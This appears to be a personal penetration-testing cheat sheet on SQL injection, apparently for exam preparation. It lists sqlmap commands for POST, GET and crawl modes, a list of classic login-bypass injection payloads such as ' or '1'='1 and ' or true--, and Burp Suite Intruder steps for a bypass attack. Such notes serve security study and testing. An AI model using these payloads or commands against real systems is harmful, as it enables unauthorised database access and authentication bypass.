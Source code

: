 ```
#### SQL-Injection

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM

# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http:///index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http:// --dbms=mysql --crawl=3

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM


FOR EXAM https://xapax.gitbooks.io/security/content/sql-injections.html
This is the most classic, standard first test:
' or '1'='1
Then you have:
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x



#### Sql-login-bypass


- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
```